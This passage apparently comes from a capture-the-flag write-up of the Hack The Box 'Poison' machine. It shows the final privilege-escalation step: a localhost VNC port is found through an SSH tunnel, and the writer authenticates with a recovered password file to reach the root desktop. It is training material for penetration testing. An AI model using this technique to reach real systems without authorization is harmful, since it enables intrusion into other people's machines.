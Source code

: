 ```
root@kali:~# netstat -ant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:5801          0.0.0.0:*               LISTEN     
tcp        0      0 10.10.14.8:44976        10.10.10.84:22          ESTABLISHED
tcp        0      0 10.10.14.8:22           10.10.10.84:54672       ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 ::1:5801                :::*                    LISTEN
```

`vncviewer` allows you to pass a passwd file to it for authentication with the `-passwd` option, so perhaps we can pass our secret file for authentication. 

```
root@kali:~/htb/poison# vncviewer -h
TightVNC Viewer version 1.3.9

Usage: vncviewer [<OPTIONS>] [<HOST>][:<DISPLAY#>]
       vncviewer [<OPTIONS>] [<HOST>][::<PORT#>]
       vncviewer [<OPTIONS>] -listen [<DISPLAY#>]
       vncviewer -help

<OPTIONS> are standard Xt options, or:
        -via <GATEWAY>
        -shared (set by default)
        -noshared
        -viewonly
        -fullscreen
        -noraiseonbeep
        -passwd <PASSWD-FILENAME> (standard VNC authentication)
~
~
```

```
root@kali:~/htb/poison# vncviewer -passwd secret 127.0.0.1:5801
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
```

![root](/img/poison-root.png)

And done!